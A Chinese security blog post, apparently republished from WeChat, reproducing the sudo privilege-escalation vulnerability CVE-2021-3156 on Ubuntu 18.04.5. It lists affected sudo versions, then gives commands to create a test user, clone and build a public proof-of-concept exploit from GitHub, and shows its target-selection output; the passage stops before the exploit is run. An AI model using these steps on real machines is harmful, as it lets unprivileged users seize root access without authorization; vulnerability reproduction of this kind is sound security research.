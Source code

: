 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-PjZOn7vzgGpMkoicosUUw)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)

> **文章来****源： 天禧信安**

0x00 前言

好几周前 Linux 有个 sudo 漏洞爆出来了 编号 CVE-2021-3156

这个漏洞能让低权限用户（甚至没有在 su­do­ers 文件里）直接提权到 root

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouOPf5MOpzk95hePNI0JABUgj0RZF3O8hqFYiaqCP9icqXPzTOwYYbZkIazTiciaPX7dHlsn4gNYlutu4A/640?wx_fmt=png)

漏洞影响版本：

lsudo 1.8.2-1.8.31p2

lsudo 1.9.0-1.9.5p1 稳定版

0x01 漏洞复现

复现环境为 Ubuntu 18.04.5 (Bionic) LTS。

首先创建一个低权限用户用于测试 PoC：

```
useradd doge
```

然后切换到用户 doge，确认其权限：

```
su doge
whoami
# doge
sudo apt install git
# doge不在sudoers文件中。此事件将被报告
```

确认过权限后，我们开始构建漏洞 PoC，这里使用的是 https://github.com/blasty/CVE-2021-3156

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```

啪的一下就构建完了，很快啊

它会生成一个 sudo-hax-me-a-sand­wich 程序，直接运行它

```
./sudo-hax-me-a-sandwich
#** CVE-2021-3156 PoC by blasty
#
#  usage: ./sudo-hax-me-a-sandwich
#
#  available targets:
#  ------------------------------------------------------------
#    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
#    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
#    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
#  ------------------------------------------------------------
#
#  manual mode:
#    ./sudo-hax-me-a-sandwich
```
